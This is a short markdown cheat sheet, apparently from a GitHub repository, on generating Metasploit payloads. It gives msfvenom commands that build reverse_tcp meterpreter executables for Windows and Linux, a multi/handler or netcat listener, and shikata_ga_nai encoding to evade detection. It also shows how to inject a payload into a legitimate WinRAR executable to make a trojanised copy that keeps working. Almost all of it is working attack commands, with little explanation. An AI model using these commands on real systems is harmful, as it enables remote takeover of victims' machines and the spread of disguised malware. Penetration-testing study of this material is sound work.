 # Payload With Metasploit

## msfvenom

```bash
msfvenom --list payloads
msfvenom --list formats
#example usage 32 bit
msfvenom -a x86 -p /windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -f exe > payloadx86.exe
#example usage 64 bit
msfvenom -a x64 -p /windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -f exe > payloadx64.exe
#example linux payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -f elf > payloadx86
```

## Listener

```bash
use multi/handler
set payload /windows/meterpreter/reverse_tcp # the same as the one used in msfvenom
set LHOST
set LPORT
run
```

Or just use netcat

```bash
nc -nvlp 4444
```

## Encoding

```bash
msfvenom --list encoders
#example windows 32bit payload with encoding
msfvenom -a x86 -p /windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -i 10 -e x86/shikata_ga_nai -f exe > payloadx86.exe
```

### Injecting Payloads Into Windows Portable Executables

```bash
#example using winrar portable 32bit
msfvenom -p /windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -i 10 -e x86/shikata_ga_nai -f exe -x /home/download/winrar32.exe > winrar_injected.exe
#this will keep the original functionality (but not work for most portable exe)
msfvenom -p /windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -i 10 -e x86/shikata_ga_nai -f exe -k -x /home/download/winrar32.exe > winrar_injected.exe
```
